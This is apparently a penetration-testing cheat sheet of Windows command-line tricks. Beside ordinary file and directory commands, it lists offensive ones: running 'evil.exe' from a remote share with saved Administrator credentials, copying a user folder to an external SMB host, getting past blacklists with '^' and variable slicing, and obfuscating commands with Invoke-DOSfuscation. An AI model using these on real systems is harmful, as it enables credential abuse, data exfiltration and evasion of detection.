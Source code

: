 ## Misc

```bash
cd #Get current dir
cd C:\path\to\dir #Change dir
dir #List current dir
dir /a:h C:\path\to\dir #List hidden files
dir /s /b #Recursive list without shit
time #Get current time
date #Get current date
shutdown /r /t 0 #Shutdown now
type <file> #Cat file

#Runas
runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe" #Use saved credentials
runas /netonly /user:<DOMAIN>\<NAME> "cmd.exe" ::The password will be prompted

#Hide
attrib +h file #Set Hidden
attrib -h file #Quit Hidden

#Give full control over a file that you owns
icacls <FILE_PATH> /t /e /p <USERNAME>:F
icacls <FILE_PATH> /e /r <USERNAME> #Remove the permision

#Recursive copy to smb
xcopy /hievry C:\Users\security\.yawcam \\10.10.14.13\name\win

#exe2bat to transform exe file in bat file

#ADS
dir /r #Detect ADS
more file.txt:ads.txt #read ADS
powershell (Get-Content file.txt -Stream ads.txt)

# Get error messages from code
net helpmsg 32 #32 is the code in that case
```

### Bypass Char Blacklisting

```bash
echo %HOMEPATH:~6,-11%   #\
who^ami   #whoami
```

### DOSfuscation

Generates an obfuscated CMD line

```powershell
git clone https://github.com/danielbohannon/Invoke-DOSfuscation.git
cd Invoke-DOSfuscation
Import-Module .\Invoke-DOSfuscation.psd1
Invoke-DOSfuscation
help
SET COMMAND type C:\Users\Administrator\Desktop\flag.txt
encoding
```
